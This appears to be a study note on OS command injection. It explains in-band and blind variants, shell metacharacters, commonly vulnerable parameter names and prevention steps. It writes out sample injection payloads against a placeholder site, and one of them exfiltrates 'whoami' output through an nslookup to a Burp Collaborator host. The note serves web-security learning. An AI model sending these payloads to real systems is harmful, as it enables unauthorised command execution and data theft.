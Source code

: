 Command injection is a vulnerability where a attacker can run commands on a host operating system via a vulnerable application

## Types of command injection vulnerabilities -

#### 1. In-band command injection - 

  Here we receive the response of the command sent via http response.
  
How to detect ?

> Use **shell metacharacters** - `&` `;`  `Newline (0x0a or \n)` `&&`  `|`  `|| `  `'` `$` 
  

  
#### 2. Blind  command injection - 

  Here it does not return the output of the command within the HTTP response. 

How to detect ?

> - Trigger a **time-delay** using `ping` or `sleep` command 
> eg -
> 
>   `https://vulnerable-website/endpoint?parameter=x||ping -c 10+127.0.0.1||`  
>        `https://vulnerable-website/endpoint?parameter=x & sleep 10 &`

>
> - Output the **response of the command to web root** and access the file directly via web browser. 
> eg - `https://vulnerable-website/endpoint?parameter=||whoami>/var/www/images/output.txt||`

> - Open an **Out-of Band channel to a server you control** like Burp collaborator.
> eg - `https://vulnerable-website/endpointparameter=x||nslookup+burp.collaborator.address||`
> 
> TIP - Exfiltrate the output of your command 
> 
> ```https://vulnerable-website/endpointparameter=||nslookup `whoami`.burp.collaborator.address||```

#### Some vulnearble functions - 

```

-   exec
-   command
-   execute
-   ping
-   query
-   jump
-   code
-   reg
-   do
-   func
-   arg
-   option
-   load
-   process
-   step
-   read
-   function
-   req
-   feature
-   exe
-   payload
-   run
-   print
```
## Ways ton inject commands 

A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on **both Windows and Unix**-based systems:

`&`
`&&`
`|`
`||`

The following command separators work **only on Unix**-based systems:

- `;`
- `Newline (0x0a or \n)`
- 
On Unix-based systems, you can also use `backticks or the dollar character` to perform inline execution of an injected command within the original command:

- `injected command `

- `$(injected command )`




## Prevent -
- Avoid using shell execution functions. If unavoidable, limit their use to very specific use cases.
- Perform proper input validation when taking user input into a shell execution command.
- Use a safe API when accepting user input into the application.
- Escape special characters in the case where a safe API is not available.

----------------------------------------
